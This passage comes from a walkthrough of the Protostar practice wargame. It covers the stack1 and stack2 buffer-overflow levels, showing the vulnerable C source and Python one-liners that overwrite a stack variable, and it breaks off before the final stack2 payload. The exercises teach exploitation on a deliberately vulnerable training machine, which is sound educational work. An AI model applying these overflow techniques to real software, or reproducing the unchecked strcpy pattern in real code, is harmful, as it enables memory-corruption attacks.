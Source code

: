 This means that we can write 4 bytes past the space allocated for `buffer` to
contain whatever byte value we want. We look up the ASCII characters for
`0x61626364` which corresponds to `dcba` (remember, little-endian).

```shell
user@protostar:~$ python -c "print 'A' * 64 + 'dcba'" | xargs /opt/protostar/bin/stack1
you have correctly got the variable to the right value
```

# stack 2

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Again, this is pretty similar to the previous level except that the data is
passed in via the enviromental variable `GREENIE` and we need to write
`0x0d0a0d0a` to `modified`.

```shell
user@protostar:~$ GREENIE=`python -c "print 'A' * 65"` /opt/protostar/bin/stack2
Try again, you got 0x00000041
```

Given that `0x0a` and `0x0d` are special ASCII characters, we cannot print it
out directly. However, there is a way in Python to print out the raw byte
values that we need.


[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: 2018-01-01-nebula-walkthrough
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/